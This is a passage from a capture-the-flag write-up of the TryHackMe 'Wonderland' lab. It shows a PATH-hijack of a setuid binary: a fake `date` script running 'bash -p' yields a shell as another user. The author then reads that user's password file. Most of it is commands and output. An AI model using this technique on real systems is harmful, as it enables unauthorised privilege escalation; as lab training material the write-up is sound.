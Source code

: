 ```bash
rabbit@wonderland:~$ cd ../rabbit/
rabbit@wonderland:/home/rabbit$ ls -lah
total 40K
drwxr-x--- 2 rabbit rabbit 4.0K May 25  2020 .
drwxr-xr-x 6 root   root   4.0K May 25  2020 ..
lrwxrwxrwx 1 root   root      9 May 25  2020 .bash_history -> /dev/null
-rw-r--r-- 1 rabbit rabbit  220 May 25  2020 .bash_logout
-rw-r--r-- 1 rabbit rabbit 3.7K May 25  2020 .bashrc
-rw-r--r-- 1 rabbit rabbit  807 May 25  2020 .profile
-rwsr-sr-x 1 root   root    17K May 25  2020 teaParty
rabbit@wonderland:/home/rabbit$ file teaParty 
teaParty: setuid, setgid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=75a832557e341d3f65157c22fafd6d6ed7413474, not stripped
rabbit@wonderland:/home/rabbit$
```

after downloading the binary and opening it with binaryninja, I was able to recover the source code (you can find it [here](https://github.com/0x00Jeff/reversed_binaries/blob/master/tryhackme/teaParty.c))

TLDR; it sets the effective user and group id to 1003, which belong the `hatter`, this way we can spawn a shell as that user, it then prints some stuff and executes the following `bash` command using `system(3)` function

```bash
/bin/echo -n \'Probably by \' && date --date=\'next hour\' -R
```
you can see that `date` wasn't invoked with its absolute path, knowing this, we can make a fake `date` executable then alter the `$PATH` variable so the teaParty executes our version of the said executable

```bash
rabbit@wonderland:/home/rabbit$ cd ../rabbit/
rabbit@wonderland:/home/rabbit$ echo "bash -p" > date
rabbit@wonderland:/home/rabbit$ chmod +x date 
rabbit@wonderland:/home/rabbit$ export PATH="$PWD:$PATH"
rabbit@wonderland:/home/rabbit$ ./teaParty 
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by hatter@wonderland:/home/rabbit$ whoami
hatter
hatter@wonderland:/home/rabbit$
```

### gaining root privileges

`hatter`'s home directory didn't have anything useful for us, there was a file there that contains some kind of password, I tried using it to login as `root`
without any success, after a while it turned out to be `hatter`'s ssh credentiels, it didn't do me any good as `hatter` didn't have the permission to execute commands with sudo

```bash
hatter@wonderland:/home/rabbit$ cd ../hatter/
hatter@wonderland:/home/hatter$ ls -a
.  ..  .bash_history  .bash_logout  .bashrc  .local  .profile  password.txt
hatter@wonderland:/home/hatter$ cat password.txt 
[REDACTED PASSWRD]
hatter@wonderland:/home/hatter$ sudo -l
[sudo] password for hatter: 
Sorry, user hatter may not run sudo on wonderland.
hatter@wonderland:/home/hatter$
```
